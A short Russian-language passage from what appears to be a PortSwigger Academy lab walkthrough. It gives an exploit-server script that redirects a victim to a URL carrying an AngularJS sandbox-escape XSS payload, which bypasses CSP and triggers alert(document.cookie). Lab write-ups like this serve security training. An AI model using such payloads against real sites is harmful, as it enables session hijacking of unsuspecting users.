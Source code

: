 я не понял как эти гении до этого добрались. Может быть однажды додумаюсь. А может быть и нет. 

Перейдем в `exploit server`

```
<script>
location='https://0adb0052041460d18376230b0011001e.web-security-academy.net//?search=%3Cinput%20id=x%20ng-focus=$event.composedPath()|orderBy:%27(z=alert)(document.cookie)%27%3E#x';
</script>
```
и нажмем `store`, а потом `deliver exploit to victim`

и получим уведомление об успешно выполненной лабораторной работе

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/13.%20%D0%A1ross-site%20scripting%20(XSS)/27.%20Reflected%20XSS%20with%20AngularJS%20sandbox%20escape%20and%20CSP/pics%20for%20walkthrough/1.png)
